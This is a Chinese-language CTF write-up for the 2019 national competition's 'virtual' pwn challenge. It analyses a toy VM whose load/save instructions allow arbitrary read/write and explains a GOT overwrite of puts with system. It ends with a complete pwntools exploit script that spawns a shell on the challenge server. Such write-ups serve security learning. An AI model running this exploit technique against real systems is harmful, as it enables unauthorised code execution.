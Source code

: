 ```yaml
---
title: 2019国赛 virtual writeup
date: 2019-04-22 09:26:02
tags: [pwn, ctf, "2019 国赛", writeup]
---
```

周末(日)打了国赛，本来周六没打就想划了，后来还是打了一下。主要做了一下virtual这题，还挺有意思的。
<!-- more -->
## 题目分析
首先拿到binary，先拖进ida，发现是一个类似虚拟机的东西，实现了几个指令，分别是
* `push`
* `pop`
* `add`
* `sub`
* `mul`
* `div`
* `load`
* `save`
通过分析逻辑发现，程序维护了三个栈，三个栈的结构如图所示：
![](/img/img_byctf2019_0.jpg)
其中，三个栈分别为：指令栈，数据栈，运行时栈。有问题的是`load`,`save`指令。
load:
![](/img/img_byctf2019_1.png)

save:

![](/img/img_byctf2019_2.png)

这两个指令没有对写入和载入的地址做判断，因此可以任意地址读写。

## 解题思路
这题主要有两个难点，一个是没有leak。整个程序只有一次输出，因此无法通过leak来知道堆地址、栈地址、libc基址等(虽然也不需要)。所以这里我们采用类似ROP中`adc gadget`的方法来进行利用。由于没有告诉我们libc版本，因此可以先采用程序的输出来leak libc版本，之后就好办了。还有一个难点就是函数逻辑比较绕，最后`save`操作先取地址再取值，因此需要和数据栈再配合一下。最终的payload如下：

* Instructions: `push push push push push push push load div add pop load div add load add push save`
* Data: `offset(system-puts) 0x404020/8 -8 -6 0x404020/8+1 -8 -9`
* name: `/bin/sh`

这里稍微解释一下流程，前面几个`push`不用解释，就是把数据栈中的数据压入运行栈。由于`save`函数的流程是先取地址的，因此我们先计算地址。第一个`load`是load了当前栈中的数据在堆上的地址，然后通过`add`抵消了寻址时的地址，这边就计算出了`save`时需要的地址的值，然后`pop`出来，继续计算。第二个`load`同理先load自己，然后通过计算就能load`got`表中`0x404020`这个位置存放的值了，这就是`puts`的实际地址。然后通过`add`指令将偏移加到结果上，这样得到了目标值，接下来只要通过`save`指令将结果写到got表就好了。

## 脚本

```python
#! /usr/bin/env python2
# Author: 850@[AAA,s^2,BIXOH]
from pwn import *
import os
"""
pwn script framework
"""

class BASE(object):
    def __init__(self, remote_host, remote_port, local_elf, gdb_script, _remote_libc, _local_libc, _log_level):
        """
        initial basic paramaters
        """
        self.rhost = remote_host
        self.rport = remote_port
        self.elf_name = local_elf
        self.gdb_scripts = gdb_script
        self.local_libc = _local_libc
        self.remote_libc = _remote_libc
        context(os='linux', log_level=_log_level)
        context(terminal=["xfce4-terminal", "-e"])

    def local_debug(self, gdb_attach):
        """
        debug with GDB
        """
        self.target = process(self.elf_name)
        self.one_gadget_addr = 0x45254
        self.elf = ELF(self.elf_name)
        self.libc = ELF(self.local_libc)
        if gdb_attach:
            gdb.attach(self.target, gdbscript=self.gdb_scripts)

    def remote_attack(self,):
        """
        remote exploit
        """
        self.libc = ELF(self.remote_libc)
        self.one_gadget_addr = 0xf02a4
        self.target = remote(self.rhost, self.rport)
        self.elf = ELF(self.elf_name)
        
    def run(self,):
        # self.local_debug(gdb_attach=False)
        self.remote_attack()
        # offset = self.one_gadget_addr - self.libc.symbols['puts'] 
        offset = self.libc.symbols['system'] - self.libc.symbols['puts'] 
        instructions = ["push "*7,"load", "div", "add" ,"pop","load","div","add","load","add","push","save"]
        data = [offset,0x404020/8, -8, -6, 0x404020/8+1, -8, -9]
        tmp=[]
        for i in data:
            tmp.append(str(i))
        print tmp
        self.target.sendlineafter("Your program name:", "/bin/sh")
        self.target.sendlineafter("Your instruction:", " ".join(instructions))
        self.target.sendlineafter("Your stack data:", " ".join(tmp))

        # self.target.recvuntil("Fuck")
        # self.target.recvline()
        # free_addr = int(self.target.recvline())

        # print "free_addr: "+hex(free_addr)
        self.target.interactive()
        return "done"

solve = BASE(
    remote_host="a569f7135ca8ce99c68ccedd6f3a83fd.kr-lab.com",
    remote_port= 40003,
    local_elf="./virtual",
    _remote_libc="./libc6.so",
    _local_libc="/lib64/libc.so.6",
    gdb_script="b *0x401d37\nb *0x401d98\nb * 0x401cce",
    _log_level="debug"
)
print solve.run() 
```
